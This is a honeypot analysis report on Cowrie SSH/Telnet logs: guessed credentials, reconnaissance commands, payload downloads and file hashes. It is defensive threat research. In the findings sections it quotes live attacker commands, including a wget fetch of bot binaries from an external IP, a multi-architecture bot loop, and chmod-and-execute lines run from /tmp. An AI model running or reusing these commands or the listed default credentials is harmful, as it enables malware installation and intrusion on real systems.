# Cowrie Credential and Payload Analysis

## Objective

This report documents a focused review of Cowrie honeypot activity collected from the T-Pot environment. The goal was to analyze SSH/Telnet-style credential attacks, post-login command activity, payload download attempts, and file download telemetry captured by Cowrie.

This report is a deep dive following the broader multi-service overview in Report 004.

## Environment

| Item | Details |
|---|---|
| Platform | T-Pot Honeypot |
| Honeypot Reviewed | Cowrie |
| Data Source | Kibana / Elastic / `logstash-*` |
| Tools Used | Kibana Discover, KQL, T-Pot Dashboard |
| Activity Type | SSH/Telnet credential guessing, command input, payload attempts |
| Approximate Cowrie Volume | 258k events |

---

## Investigation Scope

Cowrie was selected for deeper analysis because the multi-service dashboard showed approximately 258k Cowrie events. Unlike broad scanning honeypots, Cowrie can capture more detailed attacker behavior, including usernames, passwords, successful honeypot logins, commands, file downloads, and payload staging attempts.

### Main KQL Filter

```kql
type.keyword: "Cowrie"
```

---

## Finding 1: Cowrie Captured Credential and Session Activity

Cowrie telemetry included session connections, failed logins, successful honeypot logins, client negotiation events, and command input.

### Screenshot Evidence



### Event Breakdown

| Event ID | Share |
|---|---:|
| `cowrie.session.closed` | 28.7% |
| `cowrie.session.connect` | 28.7% |
| `cowrie.login.failed` | 11.8% |
| `cowrie.client.version` | 11.3% |
| `cowrie.client.kex` | 11.2% |
| `cowrie.command.input` | 2.5% |
| `cowrie.session.params` | 2.3% |
| `cowrie.log.closed` | 2.3% |
| `cowrie.login.success` | 0.4% |
| `cowrie.command.failed` | 0.2% |

### Analysis

Most Cowrie events were session connection and closure records, but the dataset also included failed logins, successful honeypot logins, and command input. This confirms that some interactions progressed beyond simple connection attempts into credential guessing and post-login activity.

---

## Finding 2: Attackers Targeted Common Usernames

Cowrie recorded repeated login attempts against common administrative and service-style usernames.

### Screenshot Evidence



### Top Usernames

| Username | Share |
|---|---:|
| `root` | 19.0% |
| `support` | 5.6% |
| `admin` | 4.1% |
| `user` | 3.5% |
| `ubuntu` | 1.4% |
| `345gs5662d34` | 1.1% |
| `sol` | 0.7% |
| `test` | 0.6% |
| `oracle` | 0.5% |
| `deploy` | 0.5% |

### Analysis

The most targeted username was `root`, followed by `support`, `admin`, `user`, and `ubuntu`. This pattern is consistent with automated SSH/Telnet credential-guessing activity against internet-facing systems.

The presence of usernames like `oracle`, `deploy`, and `support` suggests attempts against both generic Linux accounts and service-oriented accounts.

---

## Finding 3: Weak and Default Passwords Were Commonly Attempted

Cowrie also captured attempted passwords. The top values were weak, default, or commonly guessed credentials.

### Screenshot Evidence



### Top Passwords

| Password | Share |
|---|---:|
| `123456` | 6.0% |
| `support` | 5.4% |
| `123` | 2.0% |
| `1234` | 1.2% |
| `password` | 1.2% |
| `3245gs5662d34` | 1.1% |
| `345gs5662d34` | 1.1% |
| `1` | 1.0% |
| `admin` | 1.0% |
| `root` | 1.0% |

### Analysis

The top attempted passwords were weak and predictable. Values such as `123456`, `123`, `1234`, `password`, `admin`, and `root` are consistent with automated credential-stuffing or brute-force behavior.

The `support` username and password pattern may indicate attempts against common network devices, appliances, or support-style accounts.

---

## Finding 4: Cowrie Captured Post-Login Reconnaissance Commands

Cowrie recorded command input that suggests automated system discovery after successful honeypot interaction.

### KQL Filter Used

```kql
type.keyword: "Cowrie" and eventid: "cowrie.command.input"
```

### Screenshot Evidence



### Notable Commands

| Command / Input | Share |
|---|---:|
| `cd ~; chattr -ia .ssh; lockr -ia .ssh` | 5.4% |
| `lockr -ia .ssh` | 5.4% |
| `uname -a` | 4.6% |
| `cat /proc/cpuinfo \| grep model \| grep name \| wc -l` | 4.4% |
| `cat /proc/cpuinfo \| grep name \| head -n 1 \| awk ...` | 4.4% |
| `crontab -l` | 4.4% |
| `free -m \| grep Mem \| awk ...` | 4.4% |
| `ls -lh $(which ls)` | 4.4% |
| `top` | 4.4% |

### Analysis

The commands attempted to identify operating system details, CPU information, memory resources, running processes, scheduled tasks, and system binaries. This is consistent with automated post-login reconnaissance.

Some commands also referenced `.ssh` and file attribute changes. This should be treated as suspicious SSH-related activity, but not overstated as confirmed persistence without additional evidence.

---

## Finding 5: Cowrie Captured Payload Download and Execution Attempts

A focused search for downloader and execution-related commands showed activity involving BusyBox checks, `wget`, `chmod`, and shell execution.

### KQL Filter Used

```kql
type.keyword: "Cowrie" and eventid: "cowrie.command.input" and input: (*wget* or *curl* or *tftp* or *chmod* or *busybox*)
```

### Screenshot Evidence



### Key Commands

| Command / Input | Share |
|---|---:|
| `/bin/busybox SATORI` | 22.2% |
| `/bin/busybox TEST` | 22.2% |
| `/bin/busybox cat ...` | 22.2% |
| `wget -q http://2.27.62.235:8443/$bot -O $bot 2>/dev/null;` | 11.1% |
| `cd /tmp && chmod +x 1Sfg6IDQ && bash -c ./1Sfg6IDQ` | 11.1% |
| `cd /tmp && chmod +x MCHJRdOb && bash -c ./MCHJRdOb` | 11.1% |

### Analysis

This activity shows behavior beyond reconnaissance. The observed commands attempted to check for BusyBox, download a file using `wget`, modify file permissions with `chmod +x`, and execute files from `/tmp`.

This pattern is consistent with attempted payload staging or bot deployment inside the honeypot environment.

No payload was manually downloaded or executed by the analyst.

---

## Finding 6: Payload-Related Activity Was Distributed Across Many Sources

The downloader/execution filter showed that payload-related command activity was not limited to one source IP or one country.

### Screenshot Evidence





### Top Source IPs

| Source IP | Share |
|---|---:|
| `124.236.108.172` | 6.3% |
| `154.211.13.102` | 1.9% |
| `130.12.180.51` | 1.4% |
| `5.182.83.231` | 1.4% |
| `101.100.194.199` | 1.2% |
| `138.124.123.62` | 1.2% |
| `152.32.132.215` | 1.2% |
| `196.189.237.92` | 1.2% |
| `212.175.150.188` | 1.2% |
| `43.134.82.122` | 1.2% |
| Other | 82.1% |

### Top Source Countries

| Country | Share |
|---|---:|
| United States | 28.0% |
| Singapore | 14.5% |
| China | 8.2% |
| Hong Kong | 4.2% |
| Russia | 3.7% |
| Indonesia | 2.8% |
| The Netherlands | 2.8% |
| South Korea | 2.6% |
| Seychelles | 2.3% |
| Spain | 2.3% |
| Other | 28.7% |

### Analysis

Payload-related command activity was broadly distributed. The top source IP accounted for only 6.3% of sampled records, while the `Other` category accounted for 82.1%.

This suggests broad automated bot activity rather than a single-source intrusion attempt. Country data should be interpreted as source infrastructure geolocation, not confirmed attacker attribution.

---

## Finding 7: Cowrie Captured a Specific Payload Download Command

A focused search found two command-input events referencing an external payload host.

### KQL Filter Used

```kql
type.keyword: "Cowrie" and input: "*2.27.62.235*"
```

### Screenshot Evidence









### Observed Command

```bash
wget -q http://2.27.62.235:8443/$bot -O $bot 2>/dev/null;
```

### Key Observations

| Field | Value |
|---|---|
| Records | 2 |
| Event ID | `cowrie.command.input` |
| Source IP | `2.27.62.235` |
| Country | United States |
| Destination in command | `http://2.27.62.235:8443/$bot` |
| Behavior | Attempted payload retrieval |

### Command Breakdown

| Command Part | Meaning |
|---|---|
| `wget -q` | Quiet download |
| `http://2.27.62.235:8443/$bot` | External payload path using a variable payload name |
| `-O $bot` | Save output locally as `$bot` |
| `2>/dev/null` | Hide error output |

### Analysis

This command is consistent with attempted payload retrieval or bot deployment. The use of `2>/dev/null` suggests the command attempted to suppress errors during execution.

The URL and IP were treated as suspicious indicators captured by Cowrie. The analyst did not visit, download, or execute the payload.

---

## Finding 8: Session Pivot Confirmed Weak Credential Use and Payload Behavior

Cowrie session pivoting connected the payload download behavior to successful honeypot logins using weak credentials.

### Screenshot Evidence















### Session Chain

| Field | Value |
|---|---|
| Username | `admin` |
| Password | `admin` |
| Source IP | `2.27.62.235` |
| Country | United States |
| Event types | Login success, command input, file download, failed download, session close |
| Payload command | `wget -q http://2.27.62.235:8443/$bot -O $bot 2>/dev/null;` |

### Observed Inputs

| Input | Meaning |
|---|---|
| `wget -q http://2.27.62.235:8443/$bot -O $bot 2>/dev/null;` | Attempted payload retrieval |
| `cd /tmp;` | Move to temporary directory |
| `echo OK` | Basic execution/status check |
| `for bot in bot_mips bot_arm bot_arm64 bot_amd64 bot_386 bot_mipsle` | Architecture-specific payload loop |
| `for bot in ...; do` | Iteration over payload variants |

### Analysis

The session showed a complete attack sequence inside the honeypot:

```text
Connection -> successful login -> command input -> payload download attempt -> file download event -> session close
```

The weak credential pair `admin:admin` was used successfully inside the Cowrie honeypot. After authentication, the session attempted to retrieve a payload and referenced multiple CPU architecture variants, including MIPS, ARM, ARM64, AMD64, x86, and MIPSLE-style naming.

This behavior is consistent with automated bot or malware deployment attempts against Linux/IoT-style systems.

---

## Finding 9: Cowrie Recorded File Download Events and Hashes

Cowrie also recorded file download events, output paths, and file hashes.

### KQL Filter Used

```kql
type.keyword: "Cowrie" and eventid: "cowrie.session.file_download"
```

### Screenshot Evidence









### Key Observations

| Field | Observation |
|---|---|
| File download records | 619 |
| Top hash share | 60.7% |
| Second hash share | 37.8% |
| URL field | Empty in reviewed results |
| Useful fields | `outfile`, `shasum`, `src_ip`, `session` |

### Top Hashes

| SHA-like Hash | Share |
|---|---:|
| `a8460f446be540410004b1a8db4083773fa46f7fe76fa84219c93daa1669f8f2` | 60.7% |
| `01ba4719c80b6fe911b091a7c05124b64eeece964e09c058ef8f9805daca546b` | 37.8% |

### Analysis

Although the `url` field was empty in the reviewed file-download records, Cowrie preserved downloaded file output paths and hashes. This gives useful indicators for passive enrichment and future malware research.

No files were manually opened or executed by the analyst.

---

## Finding 10: Top Downloaded Hash Appeared Across Many Sessions

A focused review of the top downloaded file hash showed repeated file download activity across many sessions and source IPs.

### KQL Filter Used

```kql
type.keyword: "Cowrie" and shasum: "a8460f446be540410004b1a8db4083773fa46f7fe76fa84219c93daa1669f8f2"
```

### Screenshot Evidence











### Key Observations

| Field | Observation |
|---|---|
| Records | 376 |
| Event ID | `cowrie.session.file_download` |
| Outfile | `dl/a8460f446be540410004b1a8db4083773fa46f7fe76fa84219c93daa1669f8f2` |
| Top source country | United States, 30.9% |
| Second source country | Singapore, 16.0% |
| Source IP distribution | Broadly distributed |

### Analysis

The same downloaded file hash appeared repeatedly across many sessions and source IPs. The top source IP represented only a small share of the events, while the `Other` category represented most of the distribution.

This suggests the same payload or file artifact was repeatedly delivered across many Cowrie sessions rather than being tied to one single source IP.

---

## Key Takeaways

- Cowrie captured a large amount of SSH/Telnet-style honeypot activity.
- Attackers repeatedly attempted common usernames such as `root`, `support`, `admin`, and `user`.
- Weak passwords such as `123456`, `support`, `123`, `password`, `admin`, and `root` were common.
- Cowrie captured post-login reconnaissance commands such as `uname`, `/proc/cpuinfo`, `free`, `top`, and `crontab`.
- Cowrie captured payload download and execution attempts using `wget`, `chmod`, BusyBox checks, and `/tmp` execution.
- A session pivot showed successful honeypot login using `admin:admin`.
- Cowrie recorded file download events and SHA-like hashes for downloaded artifacts.
- The top file hash appeared across many sessions, suggesting repeated automated payload delivery attempts.
- No payload was manually downloaded, opened, or executed by the analyst.

---

## Recommendations

- Disable password-based SSH authentication where possible.
- Use SSH keys, strong passwords, and multi-factor authentication for administrative access.
- Disable direct internet exposure for SSH/Telnet services unless required.
- Block Telnet entirely in production environments.
- Monitor for repeated login attempts against usernames such as `root`, `admin`, `support`, and `ubuntu`.
- Alert on post-login commands such as `wget`, `curl`, `chmod +x`, `/bin/busybox`, `uname`, and `/proc/cpuinfo` checks.
- Alert on execution attempts from `/tmp`.
- Track file hashes observed in honeypot downloads for passive enrichment.
- Do not download or execute suspicious payloads outside a controlled malware analysis environment.

---

## Lessons Learned

This Cowrie investigation showed the value of honeypots that capture interaction depth, not just connection volume. While other honeypots showed broad scanning and protocol probing, Cowrie provided visibility into the attacker workflow after login attempts.

The most important finding was the full sequence from weak credential use to command execution and payload download behavior. This helped show how automated bots may attempt to identify system architecture, retrieve payloads, change permissions, and execute files after gaining access to a poorly secured SSH/Telnet service.

This report also reinforced the importance of pivoting by session ID. Session pivoting connected individual commands, credentials, source IPs, and file download events into a clearer attack story.
